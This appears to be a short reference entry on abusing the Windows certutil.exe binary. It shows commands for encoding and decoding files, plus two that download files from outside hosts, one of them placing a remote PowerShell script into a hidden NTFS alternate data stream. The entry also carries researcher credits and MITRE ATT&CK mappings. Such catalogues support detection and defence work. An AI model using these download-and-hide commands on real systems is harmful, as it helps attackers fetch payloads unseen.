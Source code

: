 ## Certutil.exe

* Functions: Download, Add ADS, Decode, Encode

```
certutil.exe -urlcache -split -f http://7-zip.org/a/7z1604-x64.exe 7zip.exe    
    
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/Moriarty2016/git/master/test.ps1 c:\temp:ttt    
    
certutil -encode inputFileName encodedOutputFileName   
    
certutil -decode encodedInputFileName decodedOutputFileName
```

Acknowledgements:
* Matt Graeber - @mattifestation
* Moriarty - @Moriarty2016

Code sample:
* 

Resources:
* https://twitter.com/Moriarty_Meng/status/984380793383370752
* https://twitter.com/mattifestation/status/620107926288515072

Full path:
```
c:\windows\system32\certutil.exe
c:\windows\sysWOW64\certutil.exe
```

Notes:



 
MITRE ATT&CK:
* [NTFS File Attributes](https://attack.mitre.org/wiki/Technique/T1096)
* [Deobfuscate/Decode Files or Information](https://attack.mitre.org/wiki/Technique/T1140)
* [Remote File Copy](https://attack.mitre.org/wiki/Technique/T1105)
